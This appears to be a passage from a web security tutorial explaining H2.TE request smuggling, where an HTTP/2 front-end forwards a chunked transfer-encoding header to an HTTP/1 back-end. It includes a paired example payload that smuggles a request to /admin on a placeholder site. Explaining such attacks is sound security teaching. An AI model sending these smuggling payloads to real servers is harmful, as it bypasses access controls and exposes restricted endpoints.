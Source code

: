 ## H2.TE vulnerabilities

Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any `transfer-encoding: chunked` header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.

Front-end (HTTP/2):
```http
:method POST
:path /example
:authority vulnerable-website.com
content-type application/x-www-form-urlencoded
transfer-encoding chunked
0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

Back-end (HTTP/1):
```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
